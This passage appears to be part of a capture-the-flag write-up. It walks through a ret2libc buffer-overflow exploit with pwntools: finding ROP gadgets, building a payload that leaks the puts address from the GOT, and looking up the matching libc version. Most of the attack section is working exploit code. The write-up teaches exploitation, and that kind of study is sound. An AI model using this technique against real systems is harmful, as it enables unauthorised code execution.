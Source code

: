 ###### Find the gadgets
The ROP gadgets will allow us to call the function puts to find which version of libc is used.
Add to the exploit.py
```py
puts_plt = elf.plt['puts'] 
main_plt = elf.symbols['main'] 
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret  = (rop.find_gadget(['ret']))[0]
log.info("Address of Main is:" + hex(main_plt))
log.info("Address of puts@plt:" + hex(puts_plt))
log.info("The gadget pop rdi; ret found at:" + hex(pop_rdi))
```
`main_plt` = we call main for exploit the program every time we want. We have to put it at the end of each ROP to call the program again.
`pop_rdi` = use the pop rdi gadget to put the parameter in rdi because according to the calling convention the first parameter is put in RDI so we need to control it.
`puts_plt` = simply calling puts.

###### LIBC 
We have to find which version of the libc  is used. For this we have to leak the address of `puts `. Then we can research this adress in the libc-database and download the libc version.
```py
offset = b'A' * 0x48
puts_plt = elf.plt['puts']
main_plt = elf.symbols['main']
pop_rdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
ret = (rop.find_gadget(['ret']))[0]
log.info("Address of Main is:" + hex(main_plt))
log.info("Address of puts@plt:" + hex(puts_plt))
log.info("The gadget pop rdi; ret found at:" + hex(pop_rdi))

puts_got = elf.got['puts']
log.info("Address of puts@got:" + hex(puts_got))
payload = offset + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main_plt)
p.clean()
p.sendline(payload)
leak_puts = u64(p.recvline().strip().ljust(8, b'\x00'))
log.info("Function puts leaked:" + hex(leak_puts))
```
First it will overwrite rip thanks to the `offset`. After that it will use the gadget `pop_rdi`. Thx to this the adress of `function_got` in the register` RDI`. In this case the `function_got ` will be `puts`.  Then there is `puts_plt` that will read the content of the `function_got`(where is there is puts) and then it will print the adress. Main is then called for re exploit the program. 

![image](https://user-images.githubusercontent.com/87600765/175792134-c4f79b0a-2084-4e43-9874-d208629681f0.png)


Then we can search the libc with this website https://libc.nullbyte.cat/ and put the leaked adress of `puts`.

![image](https://user-images.githubusercontent.com/87600765/175791875-1ea94890-5b23-42f4-a3bd-5212f4250b95.png)

Then you can click on it and download it. I think the both `libc` with `amd-64` is working. But in this case I chose the `0ubuntu10`
